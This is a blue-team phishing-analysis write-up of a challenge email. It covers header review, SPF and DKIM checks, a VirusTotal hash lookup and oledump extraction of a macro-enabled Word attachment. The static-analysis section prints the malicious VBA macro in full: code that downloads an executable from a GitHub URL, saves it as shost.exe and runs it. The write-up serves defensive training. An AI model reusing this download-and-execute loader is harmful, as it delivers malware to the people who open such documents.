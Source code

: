 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/phishing/challenges/phishing-rerun-c3/"}
---
```


~ [[atlas/blue-team\|blue-team]] 
### Initial Triage
---
The **from** says 'Adam' but the email content says 'Alexia' and lastly there is attached word document with a `.docm` extension, macro enabled.
![Phishing - Rerun C3.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3.png)
## Header Analysis
---
Date Sent: Tue, 14 May 2024 23:31:08 +0000

Subject: You're Invited!

Message-ID:
```C
<SA1PR14MB737384979FDD1178FD956584C1E32@SA1PR14MB7373.namprd14.prod.outlook.com>
```

Return-Path: `abarry@live.com`

Received: from SA1PR14MB7373.namprd14.prod.outlook.com

The `Message-ID` and `Received` header matches with outlook.com and the "namprd14.prod.outlook.com" domain matches with a `whois` lookup as outlook.com is owned by Microsoft:

Receiver: `emily.nguyen@glbllogistics.co`

Sender Display Name: Adam Barry

![Phishing - Rerun C3-1.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-1.png)
### Authentication Checks
---
Performing a `whois` lookup against the found domain on `return-path`:

![Phishing - Rerun C3-2.png|450](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-2.png)
It matches with the received headers as Azure and Outlook is both owned by Microsoft and the sender most likely used Azure's email services and the `return-path` matches with the `Received-SPF` record as well as passing the SPF check:

![Phishing - Rerun C3-3.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-3.png)
We can also confirm this with `dig`:

```C
dig TXT live.com | grep -i "spf"
```

Output shows that it aligns with Microsoft Outlook:

![Phishing - Rerun C3-4.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-4.png)
**Analyzing DKIM header:**

In order to verify and locate the public key, we need the domain highlighted by `d` and the selector highlighted by `s`:

![Phishing - Rerun C3-6.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-6.png)
Then using tools such as `nslookup` to perform DKIM lookup:
```C
nslookup -type=txt selector1._domainkey.live.com
```

Once again, it matches or aligns with Outlook.com: (ideally verify with DKIM lookup tool)
![Phishing - Rerun C3-5.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-5.png)
Then at the `Authentication-Results` shows, both authentication checks passed, no spoofing and content tampering found:

![Phishing - Rerun C3-7.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-7.png)
## Content Examination
---
There seems to be a sender and content email sender mismatch as highlighted:
![Phishing - Rerun C3-8.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-8.png)Viewing the source content, does not show any obsfucation techniques, just pure html:

![Phishing - Rerun C3-9.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-9.png)
### Content Examination
---
The email includes a `.docm` file which is macro enabled typically used by malicious actor to execute code once the document open:

Extracting the `.docm` file using `oledump.py` by first determining it's data stream number:

```C
python3 ../Tools/emldump.py challenge3.eml 
```

Output:
![Phishing - Rerun C3-10.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-10.png)
Then extracting the file in question with the command:

```C
python3 ../Tools/emldump.py challenge3.eml -s 5 -d > AR_Wedding_RSVP.docm
```

Then extracting it's file hash then upload it to VirusTotal to confirm if it's malicious or not:

```C
sha256sum AR_Wedding_RSVP.docm
```

Output: 

```
41c3dd4e9f794d53c212398891931760de469321e4c5d04be719d5485ed8f53e AR_Wedding_RSVP.docm 
```

VirusTotal flagged it as malicious and tagged it as trojan with a score of 44/66:

![Phishing - Rerun C3-12.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-12.png)
#### Static Analysis
---
**Extracting the script that is embedded in the document** by identifying first the data stream number:

```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm 
```

Output:

![Phishing - Rerun C3-13.png](/img/user/cards/blue-team/phishing/images/Phishing%20-%20Rerun%20C3-13.png)
Then **revealing the source code:**
```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm -s 3 --vbadecompresscorrupt
```

The most interesting part in this script is this:

```PowerShell
Set http_obj = CreateObject("Microsoft.XMLHTTP")
Set stream_obj = CreateObject("ADODB.Stream")
Set shell_obj = CreateObject("WScript.Shell")

URL = "https://github.com/TCWUS/Pastebin-Uploader.exe"
FileName = "shost.exe"
RUNCMD = "shost.exe"

http_obj.Open "GET", URL, False
http_obj.send

stream_obj.Type = 1
stream_obj.Open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FileName, 2

shell_obj.Run RUNCMD

```

Essentially what the script does is it downloads an executable from github (hxxps[://]github[.]com/TCWUS/Pastebin-Uploader[.]exe) and saves it **shost.exe** then gets executed by spawning a command prompt and calling it's filename.

**Verdict**: The `.docm` macro-enabled attachment alone is suspicious enough add in the fact that there is a slightly mispelled names between the `from` and found in the content but after further investigation by:

- Submitting the `.docm` hash in VirusTotal and getting flagged as malicious.
- The script embedded calls out to github and downloads an executable most likely is malicious.

With these evidence: the verdict is malicious.


53 mins.